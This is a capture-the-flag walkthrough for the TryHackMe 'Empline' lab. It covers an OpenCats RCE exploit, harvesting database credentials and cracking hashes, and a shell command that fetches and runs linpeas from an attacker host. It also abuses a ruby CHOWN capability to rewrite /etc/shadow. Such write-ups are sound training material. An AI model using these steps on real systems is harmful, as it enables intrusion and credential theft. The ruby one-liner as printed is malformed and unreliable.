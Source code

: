 ## Objective
The challenge is called [Empline](https://tryhackme.com/room/empline). The goal is to compromise the provided machine.
## Information Gathering
We start with the following information:
- **Target machine IP**\*: `TARGET_IP`
- **Attacker machine IP**: `ATTACKER_IP`.

*\*Note: this IP may change due to resets of the target machine.*

We start by enumerating the services exposed by the machine with `nmap`:

![415e14fb34e3478e5bdbd117219f1c42.png](../_resources/415e14fb34e3478e5bdbd117219f1c42.png)

We scan the machine with SYN scan (`-sS` option), without resolving DNS (`-n` option) and probing all TCP ports from 1 to 10000 (`-p1-10000` option). We get the following open ports:

- 22;
- 80;
- 3306;

We can further enumerate the found ports to try to identify the version of the services (`-sV` option) and run `nmap` default scripts (`-sC` option):

![5ec15a0e841629f964dc307706404fd1.png](../_resources/5ec15a0e841629f964dc307706404fd1.png)

We find out that on port `80`, as expected, the machine hosts a website.
From the scripts run on port `3306` we can guess that the machine OS is Linux.

We visit the website in our web browser:

![362972dbd1bae147d84c7cf387f2b6b1.png](../_resources/362972dbd1bae147d84c7cf387f2b6b1.png)

The hyperlink *Employment* redirects to http://job.empline.thm/careers. Before we can access that link, we need to update our `/etc/hosts` file in order to associate the domain name with the target IP:

![ae85972e472ca036adefa17e45614103.png](../_resources/ae85972e472ca036adefa17e45614103.png)

Besides, we can further enumerate the website for potentially exposed folders with `gobuster`:

![f727bc26e6b825b6e3a9e91eb336efab.png](../_resources/f727bc26e6b825b6e3a9e91eb336efab.png)

It doesn't return any relevant information. By running `gobuster` to find other potentially hidden virtualhosts, we don't get any further information either:

![dac2835aee77f981537f9ad5e10bb26c.png](../_resources/dac2835aee77f981537f9ad5e10bb26c.png)

## Exploitation

The *Employment* hyperlink directs us to the following page, that runs a web application called **OpenCats**:

![9047fd6a6a005cb3225163df7c5bd00a.png](../_resources/9047fd6a6a005cb3225163df7c5bd00a.png)

We can search for known exploits with `searchsploit opencats` for the application and we find two:

![533f547311a04119a6bc9c77d5c20ac1.png](../_resources/533f547311a04119a6bc9c77d5c20ac1.png)

The first exploit looks promising, since it allows us to get RCE. We download it with `searchsploit -m 50585`:

![35308b132810e0bf2a7d20bc0fd3cba1.png](../_resources/35308b132810e0bf2a7d20bc0fd3cba1.png)

We set its permission to executable (`chmod +x 50585.sh`), we run it and we get a shell:

![34ea5111df12fc9fa147b9c3fcec1d2e.png](../_resources/34ea5111df12fc9fa147b9c3fcec1d2e.png)

We run the comman `whoami` and detect that we are the user `www-data`:

![232a9f34216706e9860db669aefaa50b.png](../_resources/232a9f34216706e9860db669aefaa50b.png)

## Mantaining access

We look around to try to find potential privilege escalation vectors. We list the contents of directory `/home` and we find two users:

![7082b47fbec58926f12fb36cc3c2f3e7.png](../_resources/7082b47fbec58926f12fb36cc3c2f3e7.png)

In the `/var/www/opencats/` folder we find a configuration file named `config.php`:

![87409309f6123c1ec6c017af781a6d79.png](../_resources/87409309f6123c1ec6c017af781a6d79.png)

If we read this file with `cat /var/www/opencats/config.php` we find some credentials for a database:

![53635aca90b2dc219bb228394e178ed5.png](../_resources/53635aca90b2dc219bb228394e178ed5.png)

The credentials are `james:PASSWORD` (just a placeholder used in this writeup instead of the real password) and the database name is `opencats`. We can use this information to connect to the MySQL service with `mysql -u james -p'PASSWORD' -D opencats -h 10.10.83.205`:

![c94ca171cd4950b8c4ad989f166ec6ea.png](../_resources/c94ca171cd4950b8c4ad989f166ec6ea.png)

The connection is successful. In the newly acquired SQL shell we run the command `show tables;` to view all the tables in the current database; the table `user` seems interesting.

![3dfca7357bf13a0fba13344163d24613.png](../_resources/3dfca7357bf13a0fba13344163d24613.png)

We can see the column names of the table with `describe user;`:

![50860f1117332f513fb24636d64bb611.png](../_resources/50860f1117332f513fb24636d64bb611.png)

The fields `user_name` and `password` look interesting, so we can retrieve these information with a simple `SELECT` statement: `select user_name,password from user;`:

![1eedc8af7ed8295a9e48644d15a4021f.png](../_resources/1eedc8af7ed8295a9e48644d15a4021f.png)

We get four users. With a simple Google search we can find out that OpenCats stores the MD5 hash of the passwords. We can verify this by calculating the MD5 hash of the password that we got for the user `james`. Running the simple command `echo -n "PASSWORD" | md5sum` gives us the same result stored in the database, therefore the MD5 hashes are used:

![e10070e3b53541bdb2c9844f966f829a.png](../_resources/e10070e3b53541bdb2c9844f966f829a.png)

We can try to get the plain text password using John the Ripper. We save the hashes in a file (in the screenshot below only the hash of user `george` is saved) and try crack it using the `rockyou.txt` wordlist.

![38bc811cb8cb71eb6307866e45a93e18.png](../_resources/38bc811cb8cb71eb6307866e45a93e18.png)

We get the password `GEORGE_PASSWORD` (just a placeholder used in this writeup instead of the real password). We can now try to elevate our privilege by loggin in by SSH with the user `george` and the found password: `ssh george@TARGET_IP`. We get a shell:

![c8215a0165667f50faa6a68cd2cdb214.png](../_resources/c8215a0165667f50faa6a68cd2cdb214.png)

We find the user flag in the home directory: `cat user.txt`:

![9f47aae895104a5ce1d5ed5500182e46.png](../_resources/9f47aae895104a5ce1d5ed5500182e46.png)

Now we can try to elevate our privileges to `root`. To find possible privilege escalation vectors, we can run `linpeas.sh`. In order to get it on the target machine, we host a simple Python server on the attacker machine with `sudo python -m http.server 80` in the folder where `linpeas.sh` is stored:

![3c80dcd783239b9bbf530b15e2722edc.png](../_resources/3c80dcd783239b9bbf530b15e2722edc.png)

Then, on the SSH session, we download it with `wget http://ATTACKER_IP/linpeas.sh` and we execute it with `/bin/sh linpeas.sh`. The script finds, among many things, the following interesting setting:

![6cf4099d6c20a8d352f5a41c0c98a539.png](../_resources/6cf4099d6c20a8d352f5a41c0c98a539.png)

It means that `ruby` has the CHOWN capability, that means that it can change files ownership. We can abuse this capability to get root access.

The idea is to modify `root` password in order to set one of our choosing. In order to do that, we need permission to modify the `/etc/shadow` file, which is where the hashes of the password are stored. We can abuse the `ruby`  capability to do that with the command `ruby -e "require 'fileutils'; fileutils.chown 'george' 'george' '/etc/shadow'"`. We can now print the first line of the file, which means that its owner is now `george`:

![0327e68befa4004b503d6479cd1caab5.png](../_resources/0327e68befa4004b503d6479cd1caab5.png)

Now we compute the hash of the password `password`, that is the password that we want to assign to the `root` user.
![590ef9b2ac144dbdecd65604c3e33091.png](../_resources/590ef9b2ac144dbdecd65604c3e33091.png)

We now modify the `/etc/shadow` file with an inline editor like `vim` replacing the old hash with the new hash value.

Finally, we can login as `root` with the password we set, i.e. `password` and get the flag `root.txt`.

![68110b1fbb7368428705ba6900b8db10.png](../_resources/68110b1fbb7368428705ba6900b8db10.png)